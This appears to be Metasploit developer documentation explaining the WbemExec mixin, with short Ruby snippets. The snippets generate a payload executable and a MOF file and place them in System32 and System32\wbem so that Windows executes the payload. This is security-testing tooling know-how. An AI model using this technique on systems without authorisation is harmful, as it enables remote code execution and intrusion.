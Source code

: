 ### Requirements
To to able to use the
```WBemExec```

### Usage
First, include the
```WbemExec```

mixin under the scope of your
```MetasploitModule```

class. You will also need the
```EXE```

mixin to generate an executable:
```ruby
include Msf::Exploit::EXE
include Msf::Exploit::WbemExec
```

Next, generate a payload name and the executable:
```ruby
payload_name = "evil.exe"
exe = generate_payload_exe
```

And then generate the mof file using the
```generate_mof```

method. The first argument should be the name of the mof file, and the second argument is the payload name:
```ruby
mof_name = "evil.mof"
mof = generate_mof(mof_name, payload_name)
```

Now you're ready to write/upload your files to the target machine. Always make sure you upload the payload executable first to
```C:\Windows\System32\```

.
```ruby
upload_file_to_system32(payload_name, exe) # Write your own upload method
```

And then now you can upload the mof file to
```C:\Windows\System32\wbem\```

:
```ruby
upload_mof(mof_name, mof) # Write your own upload method
```

